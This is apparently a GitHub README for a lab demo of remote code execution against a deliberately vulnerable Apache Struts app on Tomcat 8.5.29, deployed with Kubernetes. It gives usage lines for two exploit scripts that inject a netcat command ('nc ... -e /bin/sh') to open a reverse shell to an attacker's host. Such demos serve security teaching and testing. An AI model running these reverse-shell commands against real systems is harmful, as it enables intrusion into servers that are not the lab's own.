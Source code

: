 # Struts Remote Code Execution Demo
Modified scripts that demonstrate remote code execution (RCE) vi command injection into HTML traffic on old version of Apache Tomcat.   
The yaml file will deploy vulnerable container running struts super-app via apache tomcat ver 8.5.29 java website.
The image is pulled via `https://hub.docker.com/repository/docker/skywalke34/struts`

## To deploy the container via yaml file to kubernetes cluster:
`kubectl create namespace struts`

`kubectl create -f struts.yaml -n struts`

A service will be created that exposes the super-app website.

To get the ip address of the service:
`kubectl get svc,pods -n struts`
The Apache console will be accessible via `http://<service-ip-address>:8080/`

To access the super-app website, also use the service IP address on port 8080/super-app/orders

*Example:* `http://<:8080/super-app/orders`

Use the IP address from the website with the python scripts to inject a netcat command and sh command to establish a reverse shell from the container.

**struts1.py example**: (insert your own IP addresses / port for the reverse shell)
`python3 struts1.py http://xxx.xxx.xxx.xxx:8080/super-app/orders/3 'nc -nv 123.456.789.001 1337 -e /bin/sh`'

**struts-pwn2.py example:**
`python struts-pwn2.py --exploit --url 'http://xxx.xxx.xxx.xxx:8080/super-app/orders/3' -c 'nc -nv 123.456.789.100 1337 -e /bin/sh'`
